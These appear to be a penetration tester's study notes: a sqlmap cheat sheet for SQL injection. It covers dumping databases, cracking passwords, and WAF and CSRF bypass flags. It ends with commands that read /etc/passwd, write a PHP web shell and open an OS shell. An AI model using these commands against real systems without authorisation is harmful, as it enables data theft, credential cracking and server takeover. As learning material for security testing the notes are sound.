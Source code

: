 #sql
[[SQLi]]
[[ghauri]]
#####  Copy request as curl and paste to terminal
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

replace curl with sqlmap or save request to file: 
```shell
sqlmap -r req.txt
```

##### Show current DB as a proof
`--current-db`
##### Scan using parameters in cookies:
```bash
sqlmap -u 'http://94.237.50.99:43765/case3.php'  -H 'Cookie: id=*' --dump --batch
```

#### Tuning
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

prefix and suffix for the query below

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

```
--batch --dump show response of queries

-T flag5 - specify table

--level 1 (1-5)

--risk 1 (1-3)

--code 200 match http code

--titles <title> match page title

--string=success match response string

--text-only strip all tags, keep only text of response

--technique=BEU - SQLi types (boolean, union, etc.)

specify number of colons for union based technique:

--union-cols=5
```

#### Enumeration
* `--dbs`
* `--banner`
* `--current-user`
* `--is-dba`
* `--tables`
* `-D dbname`
* `-C col1, col`
* `--where="name LIKE 'f%'"`
* `--dump-all --exclude-sysdbs` - enumerate all DBs
* `--schema`
* `--search -T table -C col1` -- search for table which contains word table
* `--passwords` - try to crack passwords
* `-T table_name --dump`

##### CSRF bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

##### Random value
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

##### Parameters processing
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

##### Proxy
`proxy="socks4://177.39.187.70:33283`
`--check-tor`
##### WAF
[[WAF]]
Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall). There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a `406 - Not Acceptable` response after such a request.
Detect WAF by signature: https://github.com/stamparm/identYwaf

##### Useragent
```shell
--random-agent
```

##### Tamper Scripts
Modyfing queries to bypass WAF.

`--tamper=between,randomcase`
`--list-tampers`

##### HTTP paramater pollution (HPP)
[[HPP]]
```
id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...
```

##### Files
```shell
--file-read "/etc/passwd"
```

```shell
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

#### Upload shell
```shell
--os-shell
```


